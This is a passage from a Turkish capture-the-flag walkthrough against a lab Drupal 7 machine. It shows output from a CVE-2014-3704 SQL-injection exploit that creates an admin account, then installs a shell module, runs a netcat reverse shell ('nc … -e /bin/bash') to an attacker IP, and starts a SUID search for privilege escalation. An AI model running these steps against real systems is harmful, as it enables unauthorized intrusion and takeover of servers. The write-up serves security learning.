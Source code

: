                                  Drup4l => 7.0 <= 7.31 Sql-1nj3ct10n
                                              Admin 4cc0unt cr3at0r

			  Discovered by:

			  Stefan  Horst
                         (CVE-2014-3704)

                           Written by:

                         Claudio Viviani

                      http://www.homelab.it

                         info@homelab.it
                     homelabit@protonmail.ch

                 https://www.facebook.com/homelabit
                   https://twitter.com/homelabit
                 https://plus.google.com/+HomelabIt1/
       https://www.youtube.com/channel/UCqqmSdMqf_exicCe_DjlBww


[!] VULNERABLE!

[!] Administrator user created!

[*] Login: kuday
[*] Pass: kuday
[*] Url: http://192.168.171.138/?q=node&destination=node

</pre>
<p>Yukarıdaki bağlantıya giderek kullanıcı adı ve şifremiz ile sisteme giriş yapalım.</p>
<p>Sisteme giriş yaptıktan sonra menü kısmından Modules<br>Açılan sayfada ise Install new module bağlantısına tıklayarak modüle yükleme sayfasına ilerledim.</p>
<p>Bunu neden yaptık peki? Üst kısımlarda Drupal'ı anlatırken eklentilerinin ücretsiz olduğunu belirtmiştim. https://www.drupal.org/project/shell adresinden modülü direkt olarka indirebilirsiniz ya da https://ftp.drupal.org/files/projects/shell-7.x-1.0-beta5.tar.gz adresini kullanabilirsiniz.<br>ÖNEMLİ NOT: Unutmayınki biizm uygulamamızın sürüm 7, eğer 8. sürüm için yazılmış bir shell modülü indirip yüklemeye çalışırsanız başarılı olmayacaktır.</p>
<p>Şimdi tekrardan Modules kısmında gelerek ismi Shell olan modülümüzü etkinleştirmemiz gerekmektedir. Bu işlemi yaptıktan sonra Konfigürasyon Ayarlarımızı kaydetmemiz gerekmektedir.</p>
<p>Şimdi Dashboard->kuday->Shell şeklinde ilerleyerek. Kabuğumuza ulaşıyoruz. Artık reverse shell alma vakti. Shell'e aşağıdaki kodu yazabilir ya da istediğiniz bir shell kodu yazabilirsiniz. İçeride gezindiğinizde bazı flagler göreceksinizdir. Flaglere yönelmekten ziyade amacımız root olmak olacaktır.</p>
<p>Tabiki ilk onca gelecek bağlantıyı yakalayabilmek için bir dinleme noktası açmalıyız.</p>
<pre>nc -lvp 1822</pre>
<p>Şimdi aşağıdaki kodu karşı hedefe yazalım.</p>
<pre>nc 192.168.171.136 1822 -e /bin/bash</pre>



<hr>
<h3>4	Yetki Yükseltme</h3>
<p>Kernel için exploit aradım ancak bir şey bulamadım. Bunda dolayı suid biti etken olan dosyaları aramaya karar verdim. </p>
<pre>find / -perm -u=s -type f</pre>
<pre>
/bin/mount
/bin/ping
/bin/su
/bin/ping6
/bin/umount
/usr/bin/at
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chfn
/usr/bin/gpasswd